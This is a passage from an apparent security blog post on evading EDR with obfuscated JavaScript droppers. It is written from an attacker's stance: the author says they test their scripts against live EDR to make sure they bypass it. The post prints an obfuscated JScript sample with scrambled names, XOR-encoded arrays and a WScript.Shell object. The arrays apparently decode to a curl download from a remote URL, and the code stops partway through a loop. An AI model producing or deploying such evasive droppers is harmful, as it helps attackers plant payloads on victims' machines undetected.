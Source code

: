 ```yaml
---
title:  "Malware EDR Evasion Techniques"
header:
  teaser: "/assets/images/js_encoding.png"
categories:
  - EDR Bypass
tags:
  - EDR bypass
  - malware
  - AV bypass
  - jscript
  - wscript
  - cscript
  - encoding
  - obfuscate
  - bitwise
  - XOR
---
```


Yo, how's it going everyone.  Sorry it's been a while since my last post.  Fear not, I'm geared up and ready to dive in to a full discussion on Malware evasive maneuvers...specifically, `.js` files for the first drops on a machine.  Oh and yes, you're reading that correctly.  I said .js, because believe it or not it is still actively used and HIGHLY effective at bypassing your most common EDR solutions today.  Why is that?  Well, it's likely due to a few reasons:

* Living off the land binaries
* Improved obfuscation techniques
* .js scripts just aren't as heavily scrutinized by EDR like an .exe or .ps1 would be.
* The methods used within the scripts themselves.  A lot of various methods can be implemented to avoid AV triggers, such as the binary you use to download your payloads and exfiltrate information

okay, so here's the malware specimen.  This is a rough representation of the malware I recently analyzed but in this case, I added some of my own methods of obfuscation and encoding techniques, most of them fairly well known.  We have variable names scrambled, strings XOR'ed, and so on.  This accomplishes a few things, namely ease of execution without triggering AV/EDR, depending on the techniques used within the `.js` script.  I use living off the land techniques to download additional payloads within the script.  You must be cautious at this point in your script.  EDR solutions are well familiar with BITSADMIN, certutil, powershell iex, etc.  I always test my scripts against live EDR solutions to ensure the techniques used within the script are able to successfully bypass EDR; at least until folks start submitting them to virustotal 😅  You will get to see the LOTL tool I use to download a secondary file once we decode the below code:

***The Obfuscated Code***
-

```js

    var fsh35h35h35h353h5r = [];
		var njgpwoeotgoo7u3upo35h5bho = [];
		var llgll325h3l5l4 = [];
		var vffvfvrt9bvwetr8bwrt8bwrb8w = [];
    var vcg35b53hg53gh = [43,61,58,36,104,101,35,104,101,46,104,101,59,104,101,4,104]; 
		var hhghj46j46 = [104,101,39,104,43,114,103,61,59,45,58,59,103,56,61,42,36,33,43,103,60,32,45,44,58,39,56,56,45,44,46,33,36,45];
		var b33h3h354f3 =  [32,60,60,56,59,114,103,103,58,41,63,102,47,33,60,32,61,42,61,59,45,58,43,39,38,60,45,38,60,102,43,39,37,103,47,123,60,59,49,59,60,123,37,103,45,36,45,62,41,60,33,39,38,59,60,41,60,33,39,38,103,37,41,33,38,103,45,36,45,62,41,60,33,39,38,59,60,41,60,33,39,38,103,45,36,45,62,41,60,33,39,38,59,60,41,60,33,39,38,102,43,56,56];
		var nn7unj4n465j=vcg35b53hg53gh.length;
		var b46n354j3547=hhghj46j46.length;
		var drygh64uj=b33h3h354f3.length;
		
    var n86k468534 = new ActiveXObject('WScript.Shell');
		for (a=0;a<nn7unj4n465j;a++)
```